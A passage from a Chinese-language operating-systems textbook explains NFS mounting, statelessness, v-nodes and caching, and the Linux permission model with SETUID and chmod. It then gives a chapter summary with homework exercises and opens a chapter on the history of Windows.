NFS通过定义两个客户端-服务器协议来实现这一目标。一个协议就是从客户端发送到服务器的一组请求以及从服务器返回给客户端的响应的集合。
第一个NFS协议处理挂载。客户端可以向服务器发送路径名，请求服务器许可将该目录挂载到自己的目录层次的某个地方。由于服务器并不关心目录将被挂载到何处，因此请求消息中并不包含挂载地址。如果路径名是合法的并且该目录已被导出，那么服务器向客户端返回一个文件句柄。这个文件句柄中的域惟一地标识了文件系统类型、磁盘、目录的i节点号以及安全信息等。随后对已挂载目录及其子目录中文件的读写都使用该文件句柄。
Linux启动时会在进入多用户之前运行shell脚本/etc/rc。可以将挂载远程文件系统的命令写入该脚本中，这样就可以在允许用户登录之前自动挂载必要的远程文件系统。此外，大部分Linux版本也支持自动挂载。这个特性允许一组远程目录跟一个本地目录相关联。当客户端启动时，并不挂载这些远程目录（甚至不与它们所在的服务器进行联络）。相反，在第一次打开远程文件时，操作系统向每个服务器发送一条信息。第一个响应的服务器胜出，其目录被挂载。
相对于通过/etc/rc文件进行静态挂载，自动挂载具有两个主要优势。第一，如果/etc/rc中列出的某个NFS服务器出了故障，那么客户端将无法启动，或者至少会带来一些困难、延迟以及很多出错信息。如果用户当前根本就不需要这个服务器，那么刚才的工作就白费了。第二，允许客户端并行地尝试一组服务器，可以实现一定程度的容错性（因为只要其中一个是在运行的就可以了），而且性能也可以得到提高（通过选择第一个响应的服务器——推测该服务器负载最低）。
另一方面，我们默认在自动挂载时所有可选的文件系统都是完全相同的。由于NFS不提供对文件或目录复制的支持，用户需要自己确保所有这些文件系统都是相同的。因此，自动挂载多数情况下被用于包含系统代码的只读文件系统和其他很少改动的文件。
第二个NFS协议是为访问目录和文件设计的。客户端可以通过向服务器发送消息来操作目录和读写文件。客户端也可以访问文件属性，如文件模式、大小、上次修改时间。NFS支持大多数的Linux系统调用，但是也许很让人惊讶的是，open和close不被支持。
对open和close的省略并不是意外事件，而纯粹是有意为之。没有必要在读一个文件之前先打开它，也没有必要在读完后关闭它。读文件时，客户端向服务器发送一个包含文件名的lookup消息，请求查询该文件并返回一个标识该文件的文件句柄（即包含文件系统标识符i节点号以及其他数据）。与open调用不同，lookup操作不向系统内部表中复制任何信息。read调用包含要读取的文件的文件句柄，起始偏移量和需要的字节数。每个这样的消息都是自包含的。这个方案的优势是在两次read调用之间，服务器不需要记住任何关于已打开的连接的信息。因此，如果一个服务器在崩溃之后恢复，所有关于已打开文件的信息都不会丢失，因为这些信息原本就不存在。像这样不维护打开文件的状态信息的服务器称作是无状态的。
不幸的是，NFS方法使得难以实现精确的Linux文件语义。例如，在Linux中一个文件可以被打开并锁定以防止其他进程对其访问。当文件关闭时，锁被释放。在一个像NFS这样的无状态服务器中，锁不能与已打开的文件相关联，这是因为服务器不知道哪些文件是打开的。因此，NFS需要一个独立的，附加的机制来处理加锁。
NFS使用标准UNIX保护机制，为文件属主、组和其他用户使用读、写、执行位（rwx bits）（在第1章中提到过，将在下面详细讨论）。最初，每个请求消息仅仅包含调用者的用户ID和组ID，NFS服务器用它们来验证访问。实际上，它信任客户端，认为客户端不会进行欺骗。若干年来的经验充分表明了这样一个假设。现在，可以使用公钥密码系统建立一个安全密钥，在每次请求和应答中使用它验证客户端和服务器。启用这个选项后，恶意的客户端就不能伪装成另一个客户端了，因为它不知道其他客户端的安全密钥。
3.NFS实现
尽管客户端和服务器代码实现独立于NFS协议，但大多数Linux系统使用一个类似图10-36所示的三层实现。顶层是系统调用层，这一层处理如open、read和close之类的调用。在解析调用和参数检查结束后，调用第二层——虚拟文件系统（VFS）层。
VFS层的任务是维护一个表，每个打开的文件在该表中有一个表项。VFS层为每个打开文件保存一个虚拟i节点（或称为v-node）。v节点用来说明文件是本地文件还是远程文件。对于远程文件，v节点提供足够的信息使客户端能够访问它们。对于本地文件，则记录其所在的文件系统和文件的i节点，这是因为现代Linux系统能支持多文件系统（例如ext2fs、/proc、FAT等）。尽管VFS是为了支持NFS而发明的，但多数现代Linux系统将VFS作为操作系统的一个组成部分，不管有没有使用NFS。
为了理解如何使用v节点，我们来跟踪一组顺序执行的mount，open和read调用。要挂载一个远程文件系统，系统管理员（或/etc/rc）调用mount程序，并指明远程目录、远程目录将被挂载到哪个本地目录，以及其他信息。mount程序解析要被挂载的远程目录并找到该目录所在的NFS服务器，然后与该机器连接，请求远程目录的文件句柄。如果该目录存在并可被远程挂载，服务器就返回一个该目录的文件句柄。最后，mount程序调用mount系统调用，将该句柄传递给内核。
然后内核为该远程目录创建一个v节点，并要求客户端代码（图10-36所示）在其内部表中创建一个r节点（remote i-node）来保存该文件句柄。v节点指向r节点。VFS中的每一个v节点最终要么包含一个指向NFS客户端代码中r节点的指针，要么包含指向一个本地文件系统的i节点的指针（在图10-36中用虚线标出）。因此，我们可以从v节点中判断一个文件或目录是本地的还是远程的。如果是本地的，可以定位相应的文件系统和i节点。如果是远程的，可以找到远程主机和文件句柄。
当客户端打开一个远程文件时，在解析路径名的某个时刻，内核会碰到挂载了远程文件系统的目录。内核看到该目录是远程的，并从该目录的v节点中找到指向r节点的指针，然后要求NFS客户端代码打开文件。NFS客户端代码在与该目录关联的远程服务器上查询路径名中剩余的部分，并返回一个文件句柄。它在自己的表中为该远程文件创建一个r节点并报告给VFS层。VFS层在自己的表中为该文件建立一个指向该r节点的v节点。从这里我们再一次看到，每一个打开的文件或目录有一个v节点，要么指向一个r节点，要么指向一个i节点。
返回给调用者的是远程文件的一个文件描述符。VFS层中的表将该文件描述符映射到v节点。注意，服务器端没有创建任何表项。尽管服务器已经准备好在收到请求时提供文件句柄，但它并不记录哪些文件有文件句柄，哪些文件没有。当一个文件句柄发送过来要求访问文件时，它检查该句柄。如果是有效的句柄，就使用它。如果安全策略被启用，验证包含对RPC头中的认证密钥的检验。
当文件描述符被用于后续的系统调用（例如read）时，VFS层先定位相应的v节点，然后根据它确定文件是本地的还是远程的，同时确定哪个i节点或r节点是描述该文件的。然后向服务器发送一个消息，该消息包含句柄、偏移量（由客户端维持，而不是服务器端）和字节数。出于效率方面的考虑，即使要传输的数据很少，客户端和服务器之间的数据传输也使用大数据块，通常是8192字节。
当请求消息到达服务器，它被送到服务器的VFS层，在那里将判断所请求的文件在哪个本地文件系统中。然后，VFS层调用本地文件系统去读取并返回请求的字节。随后，这些数据被传送给客户端。客户端的VFS层接收到它所请求的这个8KB块之后，又自动发出对下一个块的请求，这样当我们需要下一个块时就可以很快地得到。这个特性称为预读（read ahead），它极大地提高了性能。
客户端向服务器写文件的过程是类似的。文件也是以8KB块为单位传输。如果一个write系统调用提供的数据少于8KB，则数据在客户端本地累积，直到达到8KB时才发送给服务器。当然，当文件关闭时，所有的数据都立即发送给服务器。
另一个用来改善性能的技术是缓存，与在通常的UNIX系统中的用法一样。服务器缓存数据以避免磁盘访问，但这对客户端而言是不可见的。客户端维护两个缓存：一个缓存文件属性（i节点），另一个缓存文件数据。当需要i节点或文件块时，就在缓存中检查有无符合的数据。如果有，就可以避免网络流量了。
客户端缓存对性能提升起到很大帮助的同时，也带来了一些令人讨厌的问题。假设两个客户端都缓存了同一个文件块，并且其中一个客户端修改了它。当另一个客户读该块时，它读到的是旧的数据值。这时缓存是不一致的。
考虑到这个问题可能带来的严重性后果，NFS实现做了一些事情来缓解这一问题。第一，为每个缓存了的块关联一个定时器。当定时器到期时，缓存的项目就被丢弃。通常，数据块的时间是3秒，目录块的时间是30秒。这稍微减少了一些风险。另外，当打开一个有缓存的文件时，会向服务器发送一个消息来找出文件最后修改的时间。如果最后修改时间晚于本地缓存时间，那么旧的副本被丢弃，新副本从服务器取回。最后，每30秒缓存定时器到期一次，缓存中所有的“脏”块（即修改过的块）都发送到服务器。尽管并不完美，但这些修补使得系统在多数实际环境中高度可用。
4.NFS第4版
网络文件系统第4版是为了简化其以前版本的一些操作而设计的。相对于上面描述的第3版NFS，第4版NFS是有状态的文件系统。这样就允许对远程文件调用open操作，因为远程NFS服务器将维护包括文件指针在内的所有文件系统相关的结构。读操作不再需要包含绝对读取范围了，而可以从文件指针上次所在的位置开始增加。这就使消息变短，同时可以在一次网络传输中捆绑多个第3版NFS的操作。
Linux作为MINIX和UNIX的复制品，几乎从一开始就是一个多用户系统。这段历史意味着Linux从早期开始就建立了安全和信息访问控制。在接下来的几节里，我们将关注Linux安全性的一些方面。
一个Linux系统的用户群体由一定数量的注册用户组成，其中每个用户拥有一个惟一的UID（用户ID）。UID是介于0到65 535之间的一个整数。文件（进程及其他资源）都标记了它的所有者的UID。尽管可以改变文件所有权，但是默认情况下，文件的所有者是创建该文件的用户。
用户可以被分组，其中每组同样由一个16位的整数标记，叫做GID（组ID）。给用户分组通过在系统数据库中添加一条记录指明哪个用户属于哪个组的方法手工（由系统管理员）完成。一个用户可以同时属于多个组。为简单起见，我们不再深入讨论这个问题。
Linux中的基本安全机制很简单。每个进程记录它的所有者的UID和GID。当一个文件被创建时，它的UID和GID被标记为创建它的进程的UID和GID。该文件同时获得由该进程决定的一些权限。这些权限指定所有者、所有者所在组的其他用户及其他用户对文件具有什么样的访问权限。对于这三类用户而言，潜在的访问权限为读、写和执行，分别由r、w和x标记。当然，执行文件的权限仅当文件是可执行二进制程序时才有意义。试图执行一个拥有执行权限的非可执行文件（即，并非由一个合法的文件头开始的文件）会导致错误。因为有三类用户，每类用户的权限由3个比特位标记，那么9个比特位就足够标记访问权限。图10-37给出了一些9位数字及其含义的例子：
图10-37前两行的意思很清楚，允许所有者以及与所有者同组的人所有权限。接下来的一行允许所有者同组用户读权限但是不可以改变其内容，而其他用户没有任何权限。第四行通常用于所有者想要公开的数据文件。类似地，第五行通常用于所有者想要公开的程序。第六行剥夺了所有用户的任何权利。这种模式有时用于伪文件来实现相互排斥，因为想要创建一个同名的文件的任何行为都将失败。如果多个进程同时想要创建这样一个文件作为锁，那么只有一个能够创建成功。最后一个例子相当奇怪，因为它给组以外其他用户更多的权限。但是，它的存在是符合保护规则的。幸运的是，尽管没有任何文件访问权限，但是所有者可以随后改变保护模式。
UID为0的用户是一个特殊用户，称为超级用户（或者根用户）。超级用户能够读和写系统中的任何文件，不论这个文件为谁所有，也不论这个文件的保护模式如何。UID为0的进程拥有调用一小部分受保护的系统调用的权限，而普通用户是不能调用这些系统调用的。一般而言，只有系统管理员知道超级用户的密码，但是很多学生寻找系统安全漏洞想让自己能够不用密码就可以以超级用户的身份登录，并且认为这是一种了不起的行为。管理人员往往对这种行为很不满。
目录也是一种文件，并且具有普通文件一样的保护模式。不同的是，目录的x比特位表示查找权限而不是执行权限。因此，如果一个目录具有保护模式rwxr-xr-x，那么它允许所有者读、写和查找目录，但是其他人只可以读和查找，而不允许从中添加或者删除文件。
与I/O相关的特殊文件拥有与普通文件一样的保护位。这种机制可以用来限制对I/O设备的访问权限。例如，假设打印机特殊文件，/dev/lp，可以被根用户或者一个叫守护进程的特殊用户拥有，具有保护模式rw-------，从而阻止其他所有人对打印机的访问权限。毕竟，如果每个人都可以任意使用打印机，那么就会发生混乱。
当然，让/dev/lp被守护进程以保护模式rw-------拥有，意味着其他任何人都不可以使用打印机，但是这种做法限制了很多合法的打印要求。事实上，允许对I/O设备及其他系统资源进行受控访问的做法具有一个更普遍的问题。
这个问题通过增加一个保护位SETUID到之前的9个比特位来解决。当一个进程的SETUID位打开，它的有效UID将变成相应可执行文件的所有者的UID，而不是当前使用该进程的用户的UID。当一个进程试图打开一个文件时，系统检查的将是它的有效UID，而不是真正的UID。将访问打印机的程序设置为被守护进程所有，同时打开SETUID位，这样任何用户都可以执行该程序，并拥有守护进程的权限（例如访问/dep/lp），但是这仅限于运行该程序（例如给打印任务排序）。
许多敏感的Linux程序被根用户所有，但是打开它们的SETUID位。例如，允许用户改变密码的程序需要写password文件。允许password文件公开可写显然不是个好主意。解决的方法是，提供一个被根用户所有同时SETUID位打开的程序。虽然该程序拥有对password文件的全部权限，但是它仅仅改变调用该程序的用户的密码，而不允许其他任何的访问权限。
除了SETUID位，还有一个SETGID位，工作原理同SETUID类似。它暂时性地给用户该程序的有效GID。然而在实践中，这个位很少用到。
只有为数不多的几个安全性相关的系统调用。其中最重要的几个在图10-38中列出。最常用到的安全相关的系统调用是chmod。它用来改变保护模式。例如：
s=chmod("/usr/ast/newgame",0755);
它把newgame文件的保护模式修改为rwxr-xr-x，这样任何人都可以运行该程序（0755是一个八进制常数，这样表示很方便，因为保护位每三个分为一组）。只有该文件的所有者和超级用户才有权利改变保护模式。
access系统调用检验用实际的UID和GID对某文件是否拥有特定的权限。对于根用户所拥有的并设置了SETUID的程序，我们需要这个系统调用来避免安全违例。这样的程序可以做任何事情，有时需要这样的程序判断是否允许用户执行某种访问。让程序通过访问判断显然是不行的，因为这样的访问总能成功。使用access系统调用，程序就能知道用实际的UID和GID是否能够以一定的权限访问文件。
接下来的四个系统调用返回实际的和有效的UID和GID。最后的三个只能够被超级用户使用，它们改变文件的所有者以及进程的UID和GID。
当用户登录的时候，登录程序login（为根用户所有且SETUID打开）要求输入登录名和密码。它首先计算密码的散列值，然后在/etc/passwd文件中查找，看是否有相匹配的项（网络系统工作得稍有不同）。使用散列的原因是防止密码在系统中以非加密的方式存在。如果密码正确，登录程序在/etc/passwd中读取该用户选择的shell程序的名称，例如可能是bash，但是也有可能是其他的shell，例如csh或者ksh。然后登录程序使用setuid和setgid来使自己的UID和GID变成用户的UID和GID（注意，它一开始的时候是根用户所有且SETUID打开）。然后它打开键盘作为标准输入（文件描述符0），屏幕为标准输出（文件描述符1），屏幕为标准错误输出（文件描述符2）。最后，执行用户选择的shell程序，因此终止自己。
到这里，用户选择的shell已经在运行，并且被设置了正确的UID和GID，标准输入、标准输出和标准错误输出都被设置成了默认值。它创建任何子进程（也就是用户输入的命令）都将自动继承shell的UID和GID，所以它们将拥有正确的UID和GID，这些进程创建的任何文件也具有这些值。
当任何进程想要打开一个文件，系统首先将文件的i节点所记录的保护位与用户的有效UID和有效GID对比，来检查访问是否被允许。如果允许访问，就打开文件并且返回文件描述符；否则不打开文件，返回-1。在接下来的read和write中不再检查权限。因此，当一个文件的保护模式在它被打开后修改，新模式将无法影响已经打开该文件的进程。
Linux安全模型及其实现在本质上跟其他大多数传统的UNIX系统相同。
Linux一开始是一个开源的完全复制UNIX的系统，而今天它已经广泛应用于各种系统，从笔记本到超级计算机。它有三种主要接口：shell、C函数库和系统调用。此外，通常使用图形用户界面以简化用户与系统的交互。shell允许用户输入命令来执行。这些命令可能是简单的命令、管线或者复杂的命令结构。输入和输出可以被重定向。C函数库包括了系统调用和许多增强的调用，例如用于格式化输出的printf。实际的系统调用接口是依赖于体系结构的，在x86平台上大约有250个系统调用，每个系统调用做需要做的事情，不会做多余的事情。
Linux中的关键概念包括进程、内存模型、I/O和文件系统。进程可以创建子进程，形成一棵进程树。Linux中的进程管理与其他的UNIX系统不太一样，Linux系统把每一个执行体——单线程进程，或者多线程进程中的每一个线程或者内核——看做不同的任务。一个进程，或者统称为一个任务，通过两个关键的部分来表示，即任务结构和描述用户地址空间的附加信息。前者常驻内存，后者可能被换出内存。进程创建是通过复制父进程的任务结构，然后将内存映像信息设置为指向父进程的内存映像。内存映像页面的真正复制仅当在共享不允许和需要修改内存单元时发生。这种机制称为写时复制。进程调度采用基于优先级的算法，给予交互式进程更高的优先级。
每个进程的内存模型由三个部分组成：代码、数据和堆栈。内存管理采用分页式。一个常驻内存的表跟踪每一页的状态，页面守护进程采用一种修改过的双指针时钟算法保证系统有足够多的空闲页。
可以通过特殊文件访问I/O设备，每个设备都有一个主设备号和次设备号。块设备I/O使用内存缓存磁盘块，以减少访问磁盘的次数。字符I/O可以工作在原始模式，或者字符流可以通过行规则加以修改。网络设备稍有不同，它关联了整个网络协议模块来处理网络数据包流。
文件系统由文件和目录所组成的层次结构组成。所有磁盘都挂载到一个有惟一根的目录树中。文件可以从文件系统的其他地方连接到一个目录下。要使用文件，首先要打开文件，这会产生一个文件描述符用于接下来的读和写。文件系统内部主要使用三种表：文件描述符表、打开文件描述表和i节点表。其中i节点表是最重要的表，包含了文件管理所需要的所有信息和文件位置信息。目录和设备，以及其他特殊文件也都表示为文件。
保护基于对所有者、同组用户和其他人的读、写和执行的访问控制。对目录而言，执行位指示是否允许搜索。
1.一个目录包含以下的文件：
哪些文件能通过命令ls[abc]*e*被罗列出来？
2.下面的Linux shell管线的功能是什么？
grep nd xyz|wc-|
3.写一个能够在标准输出上打印文件z的第八行的Linux管线。
4.Linux在标准输出和标准错误对于终端都是默认的情况下是怎么区分标准输出和标准错误的？
5.一个用户在终端键入了如下的命令：
a|b|c＆
d|e|f＆
在shell处理完这些命令后，有多少新的进程在运行？
6.当Linux shell启动一个进程，它把它的环境变量，如HOME放到进程栈中，使得进程可以找到它的home目录是哪个。如果这个进程之后进行派生，那么它的子进程也能自动地得到这些变量吗？
7.在如下的条件下：文本大小=100KB，数据大小=20KB，栈大小=10KB，任务结构=1KB，用户结构=5KB，一个传统的UINX系统要花多长时间派生一个子进程？内核陷阱和返回的时间用1ms，机器每50ns就可以复制一个32位的字。共享文本段，但是不共享数据段和堆栈段。
8.当多兆字节程序变得越来越普遍，花在执行fork系统调用以及复制调用进程的数据段和堆栈段的时间也成比例地增长。当在Linux中执行fork，父进程的地址空间是没有被复制的，不像传统的fork语义那样。Linux是怎样防止子进程做一些会彻底改变fork语义的行动的？
9.当一个进程进入僵死状态后，取走它的内存有意义吗？为什么？
10.你认为为什么Linux的设计者禁止一个进程向不属于它的进程组的另一个进程发信号呢？
11.一个系统调用常用一个软件中断（陷阱）指令实现。一个普通的过程调用在Pentium的硬件上也能使用吗？如果能使用，在哪种条件下？如何使用？如果不能，请说明原因。
12.通常情况下，你认为守护进程比交互进程具有更高的优先级还是更低的优先级？为什么？
13.当一个新进程被创建，它一定会被分配一个惟一的整型数作为它的PID。在内核里有一个每个进程创建时就递增的计数器够用么？其中计数器作为新的PID。讨论你的结论。
14.在每个任务结构中的进程项中，父进程的PID被储存。为什么？
15.当响应一个传统的UNIX fork调用时，Linux的clone命令会使用什么样的sharing_flags位的组合？
16.Linux调度器在2.4版本和2.6版本的内核间经历了一个大整修。现在的调度器可以在O(1)时间做出调度决定。请解释为什么会这样？
17.当引导Linux（或者大多数其他操作系统在引导时）时，在0号扇区的引导加载程序首先加载一个引导程序，这个程序之后会加载操作系统。这多余的一步为什么是必不可少的？0号扇区的引导加载程序直接加载操作系统会更简单的。
18.某个编辑器有100KB的程序文本，30KB的初始化数据和50KB的BSS。初始堆栈是10KB。假设这个编辑器的三个复制是同时开始的。（a）如果使用共享文本，需要多少物理内存呢？（b）如果不使用共享文本又需多少物理内存呢？
19.在Linux中打开文件描述符表为什么是必要的呢？
20.在Linux中，数据段和堆栈段被分页并交换到一个特别的分页磁盘或分区的暂时副本上，但是代码段却使用了可执行二进制文件。为什么？
21.描述一种使用mmap和信号量来构造一个进程内部间通信机制的方法。
22.一个文件使用如下的mmap系统调用映射：
mmap(65536,32768,READ,FLAGS,fd,0)
每页有8KB。当在内存地址72000处读一个字节时，访问的是文件中的哪个字节？
23.在前一个问题的系统调用执行后，执行munmap(65535,8192)调用会成功吗？如果成功，文件的哪些字节会保持映射？如果不成功，为什么会失败？
24.一个页面故障会导致错误进程终止吗？如果会，举一个例子。如果不会，请解释原因。
25.在内存管理的伙伴系统中，两个相邻的同样大小的空闲内存块有没有可能同时存在而不会被合并到一个块中？如果有解释是怎么样的情况。如果没有可能，说明为什么不可能。
26.据说在代码段中分页分区要比分页文件性能更好。为什么呢？
27.举两个例子说明相对路径名比绝对路径名有优势。
28.以下的加锁调用是由一个进程集合产生的，对于每个调用，说明会发生什么事情。如果一个进程没能够得到锁，它就被阻塞。
a)A想要0到10字节处的一把共享锁。
b)B想要20到30字节处的一把互斥锁。
c)C想要8到40字节处的一把共享锁。
d)A想要25到35字节处的一把共享锁。
e)B想要8字节处的一把互斥锁。
29.考虑图10-26c中的加锁文件。假设一个进程尝试对10和11字节加锁然后阻塞。那么，在C释放它的锁前，还有另一个进程尝试对10和11字节加锁然后阻塞。在这种情况下语义方面会产生什么问题？提出两种解决方法并证明。
30.假设lseek系统调用在一个文件中寻找一个负的偏移量。给出两种可能的处理方法。
31.如果一个Linux文件拥有保护模式755（八进制），文件所有者、所有者所在组以及其他每个用户都能对这个文件做什么？
32.一些磁带驱动拥有编号的块，能够在原地重写一个特定块同时不会影响它之前和之后的块。这样一个设备能持有一个已加载的Linux文件系统吗？
33.在图10-24中链接之后Fred和Lisa在他们各自的目录中都能够访问文件x。这个访问是完全对称的吗，也就是说其中一个人能对文件做的事情另一个人也可以做？
34.正如我们看到的，绝对路径名从根目录开始查找，而相对路径名从工作目录开始查找。提供一种有效的方法实现这两种查找。
35.当文件/usr/ast/work/f被打开，读i节点和目录块时需要一些磁盘访问。在根节点的i节点始终在内存中以及所有的目录都是一个块的大小这样的假设下计算需要的磁盘访问数量。
36.一个Linux i节点有12个磁盘地址放数据块，还有一级、二级和三级间接块。如果每一个块能放256个磁盘地址，假设一个磁盘块的大小是1KB，能处理的最大文件的大小是多少？
37.在打开文件的过程中，i节点从磁盘中被读出，然后放入内存中的i节点表里。这个表中有些域在磁盘中没有。其中一个是计数器，用来记录i节点已经被打开的次数。为什么需要这个域？
38.在多CPU平台上，Linux为每个CPU维护一个runqueue。这是个好想法吗？请解释你的答案。
39.pdflush线程可以被周期性地唤醒，把多于30秒的旧页面写回到磁盘。这个为什么是必要的？
40.在系统崩溃并重启后，通常一个恢复程序将运行。假设这个程序发现一个磁盘i节点的连接数是2，但是只有一个目录项引用了这个i节点。它能够解决这个问题吗？如果能，该怎么做？
41.猜一下哪个Linux系统调用是最快的？
42.对一个从来没有被连接的文件取消连接可能吗？会发生什么？
43.基于本章提供的信息，如果一个Linux ext2文件系统放在一个1.44MB的软盘上，用户文件数据最大能有多少可以储存在这个盘上？假设磁盘块的大小是1KB。
44.考虑到如果学生成为超级用户会造成的所有麻烦，为什么这个概念还会出现？
45.一个教授通过把文件放在计算机科学学院的Linux系统中的一个公共可访问的目录下来与他的学生共享文件。一天他意识到前一天放在那的一个文件变成全局可写的了。他改变了权限并验证了这个文件与他的原件是一样的。第二天他发现文件已经被修改了。这种情况为什么会发生，又如何能预防呢？
46.Linux支持一个系统调用fsuid。setuid准许使用者拥有与他运行的程序相关的有效id的所有权利。与setuid不同，fsuid准许正在运行程序的使用者拥有特殊的权利，只能够访问文件。这个特性为什么有用？
47.写一个允许简单命令执行的最小的shell，也要使这些命令能在后台执行。
48.使用汇编语言和BIOS调用，写一个在Pentinum类计算机上从软盘上引导自己的程序。这个程序应该使用BIOS调用来读取键盘以及回应键入的字符，只是证明这个程序确实在运行。
49.写一个能通过串口连接两台Linux计算机的哑（dumb）中断程序。使用POSIX终端管理调用来配置端口。
50.写一个客户-服务器应用程序，应答请求时能通过套接字传输一个大文件。使用共享内存的方法重新实现相同的应用程序。你觉得哪个版本性能更好？为什么？使用你写好的代码和不同的文件大小进行性能的测量。你观察到了什么？你认为在Linux内核中发生了什么导致这样的行为？
51.实现一个基本的用户级线程库，该线程在Linux的上层运行。库的API应该包含函数调用，如mythreads_init、mythreads_create、mythreads_join、mythreads_exit、mythreads_yield、mythreads_self，可能还有一些其他的。进一步实现这些同步变量，以便用户能使用安全的并发操作：mythreads_mutex_init，mythreads_mutex_lock，mythreads_mutex_unlock。在开始前，清晰地定义API并说明每个调用的语义。接着使用简单的轮转抢占调度器实现用户级的库。还需要利用该库编写一个或更多的多线程应用程序，用来测试线程库。最后，用另一个像本章描述的Linux2.6 O(1)的调度策略替换简单的调度策略。使用每种调度器时比较你的应用程序的性能。
Windows是一个现代的操作系统，可以运行在消费型或商业型桌面计算机和企业服务器上。最新的桌面版本是Windows Vista。Windows Vista的服务器版本称为Windows Server 2008。在本章中我们将分析Windows Vista的各个方面，从历史简述开始，然后接下来是系统的架构。在此之后我们将看看进程、内存管理、缓存、输入/输出、文件系统，最终我们还将关注一下安全。
微软公司为桌面计算机和服务器开发的Windows操作系统可以划分为三个时代：MS-DOS、基于MS-DOS的Windows和基于NT的Windows。从技术上来说，以上的每一种系统与其他系统都有本质的不同。在个人计算机历史中不同的时代，每一种系统都占据了主导地位。图11-1显示的是微软适用于桌面计算机的主要操作系统的发布日期（不包括微软为UNIX使用的Xenix版本，被微软于1987年出售给SCO）。以下我们简要描述表中显示出的每个时代。
20世纪80初期的IBM，是那时世界上最大和最强的计算机公司，开发出基于Intel 8088微处理器的个人计算机。自从1970年中期开始，微软成为在8080和Z-80等8位微处理器上提供BASIC编程语言的领导者。当IBM接洽微软关于在新型的计算机上授权使用BASIC的时候，微软赞同并且建议IBM联系Digital Research公司以便于使用它的CP/M操作系统，那时微软还没有进入操作系统领域。IBM这样做了，但是Digital Research公司的总裁Gary Kildall非常繁忙，没有时间与IBM继续商讨，所以IBM转回到微软。在很短的时间之内，微软从一家本地公司西雅图计算机产品(Seatle Computer Products)买到了一份CP/M的拷贝，移植到IBM PC中，并且授权IBM使用。这个产品被命名为MS-DOS 1.0（Microsoft Disk Operating System）并且在1981年与第一款IBM PC一同发售。
MS-DOS是一款16位、实时模式、单一用户、命令行式的操作系统，包含8KB的内存驻留编码。在接下来的十年里，PC和MS-DOS继续发展，增加了更多的特性和性能。在1986年当IBM基于Intel 286开始设计PC/AT时，MS-DOS已经增长到36KB，但是仍然是命令行式，同一时刻只能运行一个应用程序的操作系统。
由于受到了斯坦福研究学院和Xerox PARC研究的图形用户界面的启发，以及他们取得的商业产品——苹果的Lisa和Macintosh，微软决定增加MS-DOS的图形用户界面，并命名为Windows。Windows最初的两个版本（1985和1987）并不非常成功，因为它们受到了那时的PC硬件的限制。在1990年微软为Intel 386发布了Windows 3.0版本，并且在六个月内销售了一百万份拷贝。
Windows 3.0不是一款真正的操作系统，而是在MS-DOS上应用了图形用户界面，它仍然受到机器和文件系统的控制。所有的程序在同一地址空间内运行而且它们中的任何一处bug都会使得整个系统崩溃。
在1995年8月，Windows 95发布了。它在一个成熟的系统内包括了许多特性，包括虚拟内存、进程管理、多程序设计、32位的程序界面。然而，它仍然缺少安全性，并且在操作系统和应用程序之间提供了很少的隔离措施。因此这些不稳定的问题仍然存在，在随后发布的Windows 98和Windows Me中也一样。在它们中MS-DOS仍然以16位汇编编码运行在Windows操作系统核心中。
在20世纪80年代末，微软认识到继续开发以MS-DOS为核心的操作系统不是一个最佳商业发展方向。计算机硬件在不断地提高计算速度和能力，最后PC市场会出现同桌面工作站和企业服务器的碰撞，而在这些领域UNIX操作系统是占优势的。微软同时也注意到Intel微处理器家族可能不再具有很大的竞争优势，因为它已经受到了RISC架构的挑战。为了讨论这些因素，微软从DEC公司招聘了一些由Dave Cutler带领的工程师，他是DEC的VMS操作系统的主要架构设计者。Cutler被指派开发一种全新的32位操作系统用于实现OS/2，微软当时联合IBM在合作开发OS/2操作系统的API接口。最初的设计文档中，Cutler的团队称这种操作系统为NT OS/2。
Cutler的系统由于包含很多新技术被称作NT（New Technology）（也因为最初的目标处理器是新型的Intel 860代码名称是N10）。NT开发的重点是方便地在不同的处理器之间切换和着重在安全性和可靠性方面，它同样兼容基于MS-DOS的Windows版本。Cutler的DEC工作背景展现在多个方面，有不止一处体现出NT系统的设计和VMS以及其他系统设计的相似性，如图11-2所示。
当DEC的工程师（包括后来的律师）看到NT与VMS是如此相似时（也包括他们没有发布的版本MICA），一场有关于微软使用了DEC的知识产权的争论在DEC和微软之间展开了。最终的结果是庭外和解。另外，微软同意在一段时间内支持NT系统在DEC的Alpha机器上的使用。然而，这些都不能把DEC从它在微型计算机上的错误定位和轻视个人计算机的观点中挽救回来。如同DEC的创始者Ken Olsen在1977年评论的：“没有人会想要在家里拥有计算机。”这使得DEC在1998年被出售给康柏（Compaq），而后者稍后又被惠普（Hewlett-Packard）收购。
那些仅仅熟悉UNIX的程序员发现NT的架构非常不同。这不仅仅是因为受到了VMS的影响，也是因为在当时计算机系统的不同导致设计不同。UNIX是在20世纪70年代为单处理器、16位、微内存、切换系统设计的，那时进程是最小的并行和组成单元。而且fork/exec是并不消耗很多资源的操作命令（因为切换系统经常被通过磁盘拷贝）。NT是在20世纪90年代初期设计的，当时多处理器、32位、大容量存储、虚拟内存系统已经非常普及。在NT系统中，线程是并行单元，动态连接库是组成的单元，并且fork/exec是被通过单一操作命令来实现创建一个全新的进程，然后运行另外一个程序而不需要首先复制一个拷贝。
第一个基于NT的Windows版本（Windows NT 3.1）在1993年发布，它被称作3.1是因为那时的消费版本是3.1。与IBM合作开发的版本也建立了，虽然OS/2的界面仍然被支持，Windows API的32位扩展称为Win32。在生产和销售NT的那段时间里，Windows 3.0发布了，并且在商业上取得了成功。它不仅可以运行Win32程序，并且使用Win32兼容库。
就像基于MS-DOS的Windows的最初版本一样，基于NT的Windows的最初版本也不是完全成功的。NT需要更多的内存，那时只有很少的32位应用程序。并且与设备驱动和应用程序的不兼容使得许多消费者重新回到微软仍在改进的基于MS-DOS的Windows——发布于1995年的Windows 95。Windows 95提供像NT一样的本地的32位程序界面，但是与现存的16位程序和应用软件有更好的兼容性。并不使人惊奇的是，NT的早期成功是在服务器市场与VMS和NetWare的竞争中。
NT确实达到了可移植性的目标，在后续的1994和1995年发布的版本中增加了对(小指令字节)MIPS和Power PC架构的支持。NT最初最主要的升级是在1996年升级成为Windows NT 4.0。这个系统包含了性能、安全性和可靠性，也拥有跟Windows 95同样的用户界面。
图11-3显示了Win32 API和Windows之间的关系。具有通用的API接口的基于MS-DOS的Windows和基于NT的Windows促成了NT的成功。
